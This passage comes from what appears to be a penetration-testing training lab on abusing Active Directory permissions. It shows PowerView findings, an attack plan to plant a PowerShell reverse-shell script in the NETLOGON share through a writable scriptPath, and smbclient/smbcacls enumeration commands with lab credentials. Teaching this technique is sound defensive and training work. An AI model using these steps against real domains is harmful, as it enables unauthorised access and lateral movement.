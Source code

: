 In the `ActiveDirectoryRights` field, `PowerView` displays that `david` has `ReadProperty` and `WriteProperty` over the `ObjectAceType` with the value `Script-Path` (which is the attribute's `Common Name`; `scriptPath` is the `LDAP Display Name`); therefore, `david` has `read` and `write` rights on `eric`'s `scriptPath`.

### Adalanche

Installing and running `Adalanche` on Windows is the same as on `Linux`-based systems, given that it compiles to cross-platform binaries that can run on `x86`, `x64`, and `ARM64` architectures. However, using it on Windows can be much simpler because we can run it without supplying any parameters, making it run in " [full auto](https://github.com/lkarlslund/Adalanche?tab=readme-ov-file#easy-mode--full-auto)" mode; in this mode, `Adalanche` attempts to autodetect as many parameters on its own and collects data from the AD environment and then launches its interactive discovery tool automatically.

## Abusing Write scriptPath from Linux

After determining that `david` has `write` (and `read`) rights over `eric`'s `scriptPath`, we will attempt to exploit this DACL misconfiguration from Linux to gain a reverse shell as `eric`, following the attack path below:

1. Enumerate the `NETLOGON` share to determine whether `david` has `write` permissions anywhere within it.
2. If `david` does have `write` permissions, create in `NETLOGON` a `.bat` or `.vbs` file that runs a PowerShell reverse shell one-liner.
3. Update `eric`'s `scriptPath` to be the same path as the payload file we placed in Step 2.
4. Wait until `eric` logs onto the domain to receive the reverse shell.

### Step 1

We will use `smbclient` ( [SMBMap](https://github.com/ShawnDEvans/smbmap) is another alternative) to list the available folders within `NETLOGON`:

```shell
smbclient //10.129.229.224/NETLOGON -U david%'SecurePassDav!d5' -c "ls"

  .                                   D        0  Mon May  6 04:03:40 2024
  ..                                  D        0  Mon May  6 04:03:40 2024
  CC1FDFA0FF3A                        D        0  Mon May  6 04:05:41 2024
  CCEDF2EBD2F1                        D        0  Thu May  2 15:36:45 2024
  DEFB03023DDA                        D        0  Mon May  6 04:10:40 2024
  EricsScripts                        D        0  Fri May  3 09:34:55 2024
  <SNIP>

```

From `smbclient`'s output, we will discover that there is a folder named "EricsScripts"; to determine the permissions that `david` has on it, we will utilize [smbcacls](https://www.samba.org/samba/docs/current/man-html/smbcacls.1.html), which enables us to view ACLs on an NT file or directory names (ensure there is space after the share's name):

```shell
smbcacls //10.129.229.224/NETLOGON /EricsScripts -U David%'SecurePassDav!d5'

REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:INLANEFREIGHT\Domain Users
ACL:INLANEFREIGHT\david:ALLOWED/OI|CI/RWX
ACL:BUILTIN\Administrators:ALLOWED/I/FULL
ACL:CREATOR OWNER:ALLOWED/OI|CI|IO|I/FULL
ACL:NT AUTHORITY\Authenticated Users:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|IO|I/FULL
ACL:BUILTIN\Server Operators:ALLOWED/OI|CI|I/READ

```